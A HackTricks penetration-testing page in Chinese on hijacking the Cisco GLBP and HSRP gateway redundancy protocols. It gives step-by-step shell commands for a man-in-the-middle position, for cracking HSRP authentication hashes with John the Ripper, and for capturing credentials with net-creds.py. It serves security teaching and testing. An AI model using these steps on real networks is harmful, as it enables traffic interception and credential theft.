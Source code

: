 # GLBP & HSRP 攻击

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP 劫持概述

### FHRP 概览
FHRP 旨在通过将多个路由器合并为单个虚拟单元来提供网络鲁棒性，从而增强负载分配和容错能力。思科系统推出了该套件中的重要协议，如 GLBP 和 HSRP。

### GLBP 协议概述
思科的创造，GLBP，在 TCP/IP 协议栈上运行，利用 UDP 端口 3222 进行通信。GLBP 组中的路由器每隔 3 秒交换一次“hello”数据包。如果路由器在 10 秒内未发送这些数据包，则被视为离线。但这些计时器并非固定，可以进行修改。

### GLBP 运行和负载分配
GLBP 通过使用单个虚拟 IP 和多个虚拟 MAC 地址实现跨路由器的负载分配。在 GLBP 组中，每个路由器都参与数据包转发。与 HSRP/VRRP 不同，GLBP 通过几种机制提供真正的负载平衡：

- **主机相关负载平衡：** 为主机分配一致的 AVF MAC 地址，对于稳定的 NAT 配置至关重要。
- **轮询负载平衡：** 默认方法，在请求主机之间交替分配 AVF MAC 地址。
- **加权轮询负载平衡：** 根据预定义的“权重”指标分配负载。

### GLBP 中的关键组件和术语
- **AVG（活动虚拟网关）：** 负责为对等路由器分配 MAC 地址的主要路由器。
- **AVF（活动虚拟转发器）：** 指定用于管理网络流量的路由器。
- **GLBP 优先级：** 决定 AVG 的度量标准，从默认值 100 开始，范围在 1 到 255 之间。
- **GLBP 权重：** 反映路由器上的当前负载，可以手动调整或通过对象跟踪进行调整。
- **GLBP 虚拟 IP 地址：** 为所有连接设备提供网络的默认网关。

在交互方面，GLBP 使用保留的组播地址 224.0.0.102 和 UDP 端口 3222。路由器每隔 3 秒传输“hello”数据包，如果在 10 秒内错过一个数据包，则被视为非操作。

### GLBP 攻击机制
攻击者可以通过发送优先级值最高（255）的 GLBP 数据包成为主要路由器。这可能导致 DoS 或 MITM 攻击，允许拦截或重定向流量。

### 使用 Loki 执行 GLBP 攻击
[Loki](https://github.com/raizo62/loki_on_kali) 可以通过注入优先级和权重设置为 255 的数据包执行 GLBP 攻击。攻击前的步骤包括使用诸如 Wireshark 等工具收集虚拟 IP 地址、认证存在和路由器优先级值等信息。

攻击步骤：
1. 切换到混杂模式并启用 IP 转发。
2. 确定目标路由器并检索其 IP。
3. 生成一个恶意的 Gratuitous ARP。
4. 注入一个恶意的 GLBP 数据包，冒充 AVG。
5. 为攻击者的网络接口分配一个次要 IP 地址，镜像 GLBP 虚拟 IP。
6. 实施 SNAT 以实现完整的流量可见性。
7. 调整路由以确保通过原始 AVG 路由器继续访问互联网。

通过遵循这些步骤，攻击者将自己定位为“中间人”，能够拦截和分析网络流量，包括未加密或敏感数据。

以下是演示所需的命令片段：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### 使用net-creds.py或类似工具来捕获和分析流经受损网络的数据，可以监视和拦截流量。

### HSRP劫持的被动解释及命令详细信息

#### HSRP（热备份路由器/冗余协议）概述

HSRP是思科专有协议，旨在实现网络网关冗余。它允许将多个物理路由器配置为单个逻辑单元，共享一个IP地址。这个逻辑单元由主路由器管理，负责流量导向。与使用优先级和权重进行负载平衡的GLBP不同，HSRP依赖于单个活动路由器进行流量管理。

#### HSRP中的角色和术语

- **HSRP活动路由器**：充当网关的设备，管理流量流向。
- **HSRP备用路由器**：备用路由器，准备在活动路由器故障时接管。
- **HSRP组**：一组路由器合作形成一个单一的弹性虚拟路由器。
- **HSRP MAC地址**：分配给HSRP设置中逻辑路由器的虚拟MAC地址。
- **HSRP虚拟IP地址**：HSRP组的虚拟IP地址，充当连接设备的默认网关。

#### HSRP版本

HSRP有两个版本，HSRPv1和HSRPv2，主要区别在于组容量、多播IP使用和虚拟MAC地址结构。该协议利用特定的多播IP地址进行服务信息交换，每3秒发送一次Hello数据包。如果在10秒内未收到数据包，则假定路由器处于非活动状态。

#### HSRP攻击机制

HSRP攻击涉及通过注入最大优先级值强制接管活动路由器的角色。这可能导致中间人攻击。攻击前的基本步骤包括收集有关HSRP设置的数据，可以使用Wireshark进行流量分析。

#### 绕过HSRP身份验证的步骤

1. 将包含HSRP数据的网络流量保存为.pcap文件。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. 使用hsrp2john.py从.pcap文件中提取MD5哈希。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. 使用John the Ripper破解MD5哈希。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**使用Loki执行HSRP注入**

1. 启动Loki以识别HSRP广告。
2. 将网络接口设置为混杂模式并启用IP转发。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 使用Loki瞄准特定路由器，输入破解的HSRP密码，并执行必要的配置以冒充活动路由器。
4. 获得活动路由器角色后，配置您的网络接口和IP表以拦截合法流量。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 修改路由表以通过以前的活动路由器路由流量。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 使用net-creds.py或类似实用程序从拦截的流量中捕获凭据。
```shell
sudo python2 net-creds.py -i eth0
```

执行这些步骤将使攻击者能够拦截和操纵流量，类似于GLBP劫持的过程。这突显了像HSRP这样的冗余协议的漏洞以及对强大安全措施的需求。
